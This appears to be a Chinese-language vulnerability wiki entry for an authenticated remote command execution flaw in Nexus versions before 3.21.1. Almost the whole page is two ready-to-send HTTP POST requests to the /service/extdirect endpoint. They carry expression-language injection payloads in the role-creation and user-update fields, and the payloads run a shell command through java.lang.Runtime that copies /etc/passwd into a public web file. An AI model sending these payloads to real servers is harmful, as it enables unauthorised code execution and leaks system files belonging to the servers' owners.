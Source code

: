 <languages /> <translate>

漏洞影響
--------

</translate> Nexus \< 3.21.1

<translate>

前提條件
--------

</translate> <translate> 漏洞觸發需要任意賬戶權限 </translate> <translate>

漏洞利用
--------

</translate> <translate> 該漏洞需要訪問更新角色或創建角色接口，登錄任意用戶後修改 NXSESSIONID

發送請求包執行命令 </translate>

    POST /service/extdirect HTTP/1.1
    Host:
    accept: application/json
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
    NX-ANTI-CSRF-TOKEN: 0.856555763510765
    Content-Type: application/json
    Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
    Content-Length: 304


    {"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"],"roles":[]}],"type":"rpc","tid":89}

<translate> 另外一個漏洞點 </translate>

    POST /service/extdirect HTTP/1.1
    Host:
    accept: application/json
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
    NX-ANTI-CSRF-TOKEN: 0.856555763510765
    Content-Type: application/json
    Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
    Content-Length: 304


    {"action":"coreui_User","method":"update","data":[{"userId":"www","version":"2","firstName":"www","lastName":"www","email":"www@qq.com","status":"active","roles":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"]}],"type":"rpc","tid":9}